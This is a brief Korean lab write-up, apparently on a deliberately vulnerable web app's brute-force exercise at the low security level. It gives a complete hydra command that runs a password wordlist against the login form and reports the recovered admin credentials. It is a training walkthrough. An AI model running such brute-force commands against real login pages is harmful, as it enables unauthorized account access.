 
# Brute Force(무차별 대입 공격)

## Security Level : Low

### 풀이

![image](https://github.com/user-attachments/assets/bc2e4c48-49a5-432c-b7dd-c2cae3755d13)

좌측 하단에 username: admin이라고 되어 있다. 그리고 로그인을 실패했을 때 "Username and/or password incorrect." 라는 메시지가 출력된다.

이를 이용해서 hydra를 사용해서 비밀번호를 찾아볼 생각이다.

![image](https://github.com/user-attachments/assets/fbfb341c-6c73-4582-8e17-1693c05f1edd)

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.110 http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie:PHPSESSID=j0hhk5h9tv98ldtfn6aajf83h6; security=low:F=Username and/or password incorrect."

username: admin  
password : password

![image](https://github.com/user-attachments/assets/9e8950f1-766e-4c92-94c6-d2b8330dc09d)

로그인 성공!

### 페이지 소스



## Security Level : Medium
